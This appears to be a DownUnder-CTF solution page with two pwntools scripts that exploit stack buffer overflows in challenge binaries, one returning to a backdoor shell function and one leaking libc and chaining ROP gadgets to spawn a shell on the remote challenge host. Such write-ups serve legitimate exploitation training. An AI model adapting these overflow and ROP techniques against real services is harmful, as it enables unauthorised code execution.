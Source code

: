 # DownUnder-CTF 

## Shell this

1. Return to backdoor function in the binary. BOF

```python
from pwn import *
from past.builtins import xrange
from time import sleep
import random

####Exe
exe = context.binary = ELF('./ss')

####Exploit
if __name__=='__main__':
	io = remote('chal.duc.tf',30002)
	L_ROP = b'A'*0x38+\
		p64(exe.sym.get_shell)

	io.sendlineafter('your name: ',L_ROP)
	io.interactive()
```

## Return to what

1. Return to libc. BOF

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

####Exe
exe = context.binary = ELF('./return-to-what')

####Gadgets
L_pop_rdi = 0x0040122b
L_pop_rsi = 0x00401229

####Exploit
if __name__ == '__main__':
#	io = process('./return-to-what')
	io = remote('chal.duc.tf', 30003)
	L_ROP = b'A'*0x38+\
		p64(L_pop_rdi)+\
		p64(exe.got['gets'])+\
		p64(exe.sym.puts)+\
		p64(exe.sym.main)
	io.recv()
	io.sendline(L_ROP)
	libc_leak = u64(io.recvline().strip().ljust(8,b'\x00'))-0x0800b0
	print(hex(libc_leak))
	L_ROP = b'A'*0x38+\
		p64(L_pop_rdi)+\
		p64(libc_leak+0x1b3e9a)+\
		p64(0x00401090)+\
		p64(libc_leak+0x04f440)
	io.sendline(L_ROP)
	io.interactive()
```